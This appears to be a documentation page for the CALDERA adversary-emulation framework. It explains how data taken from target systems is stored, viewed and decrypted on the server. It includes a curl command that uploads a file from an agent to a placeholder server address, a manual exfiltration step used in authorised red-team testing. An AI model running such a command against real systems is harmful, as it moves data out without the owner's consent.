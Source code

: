 # Exfiltration

After completing an operation a user may want to review the data retreived from the target system. This data is automatically stored on the CALDERA server in a directory specified in [/conf/default.yml](Server-Configuration.md#configuration-file).

## Exfiltrating Files

Some abilities will transfer files from the agent to the CALDERA server. This can be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.md#configuration-file). By default it is set to `/tmp/caldera`.

## Accessing Exfiltrated Files

The server stores all exfiltrated files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-Configuration.md#configuration-file). By default it is set to `/tmp/caldera`.

Files can be accessed by pulling them directly from that location when on the server and manually unencrypting the files.

To simplify accessing exfiltrated files from a running caldera server, you can go the the advanced section in the CALDERA UI and click on the 'exfilled files' section.

From there you can select an operation (or all) from the drop down to see a listing of all the files in the exfil folder corresponding to the operation (specifically works with sandcat agents or any other agent using the same naming scheme for file upload folder) or in the directory along with the option to select any number of files to download directly to your machine.

All downloaded files will be unencrypted before passing along as a download.

## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-Configuration.md#configuration-file). By default it is also set to `/tmp`.


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```shell
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.
